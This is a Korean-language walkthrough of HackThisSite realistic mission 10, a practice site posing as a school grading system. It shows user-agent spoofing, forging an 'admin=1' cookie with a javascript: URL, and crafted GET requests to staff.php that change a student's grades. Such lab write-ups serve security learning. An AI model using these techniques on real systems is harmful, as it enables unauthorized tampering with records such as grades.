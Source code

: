 접속한 브라우저 확인
```javascript
javascript:alert(navigator.userAgent)
```
- 익스플로러-도구-개발자도구-도구-사용자에이전트문자열변경-사용자지정-holy_teacher로 변경

이번에는 아래와 같은 메시지 나옴
- note:you are not an administrator so you cannot change grades

권한변경해주기
```javascript
javascript:document.cookie="admin=1;"
```
변경가능해졌음.

- submit grades

Sorry, Mrs. Samantha Miller, it is too late into the school year to change grades now.
- Change Grades의 소스보기에서바꿀 내용의 form 보고 get방식의 코드 작성해줌(post방식으로는 안됨)
```
#### GRADE1
http://www.hackthissite.org/missions/realistic/10/staff.php?action=changegrades&changeaction=modrec&rec=0&studentid=1&grade=5&comments=HACKED

#### GRADE2
http://www.hackthissite.org/missions/realistic/10/staff.php?action=changegrades&changeaction=modrec&rec=3&studentid=1&grade=5&comments=HACKED

해결 완료!